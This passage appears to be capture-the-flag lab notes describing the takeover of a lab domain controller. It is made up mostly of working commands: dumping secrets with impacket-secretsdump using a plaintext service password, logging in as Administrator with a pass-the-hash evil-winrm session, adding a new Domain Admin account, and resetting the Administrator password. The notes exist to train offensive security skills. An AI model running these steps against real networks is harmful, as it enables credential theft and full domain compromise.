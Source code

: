 
## With svcBackups
Perform the same technique and dump secrets from the CORPDC machine, we will use the `svcBackups` account.

## Dump hashes on the `Server1` machine

$ `proxychains -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcBackups:'q9nzssaFtGHdqUV3Qv6G'@10.200.113.102`

![[Dumping secrets from CORPDC-20240601064020744.webp]]

Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3d4edcc015856e386074795aea86b3e:::

## Connect using `evil-winrm`

$ `proxychains4 /usr/bin/evil-winrm -u Administrator -H d3d4edcc015856e386074795aea86b3e -i 10.200.113.102`

![[Dumping secrets from CORPDC-20240602155726615.webp]]

You'll get a shell.
Check out the hostname.

Evil-WinRM PS C:\Users\Administrator\Documents> `hostname`

![[Dumping secrets from CORPDC-20240602160026969.webp]]

### Create a new user as an Administrator

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos K41r@s123 /add /domain`

Username: kairos
Password:  K41r@s123

### Enumerate the groups to find the group name for the Administrator user

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group`

![[Dumping secrets from CORPDC-20240604135830320.webp]]

### Add the new user to this group to make him the `Domain Admin`.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group "Domain Admins" kairos /add /domain`

### Display user's information


The `net user` command is a Windows command-line utility that can be used to display or modify user account information. The `/domain` switch is used with `net user` to specify that the operation should be performed on a domain controller, allowing you to view or change user account information in a domain environment.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos /domain`

![[Dumping secrets from CORPDC-20240604140856658.webp]]

## Connect to RDP

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:kairos /p:K41r@s123` 

### Getting flag 7
[[Flag Submission Process]]


## Change the Administrator's password.
Even though you are a member of Domain Admins group, you can access the Administrator's directoroy.


Evil-WinRM* PS C:\Users\Administrator\Documents> `net user Administrator Hacker@123 /domain`

#### Connect to RDP with the Administrator's credentials

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:Administrator /p:Hacker@123` 

### Getting flag 8

[[Flag Submission Process]]
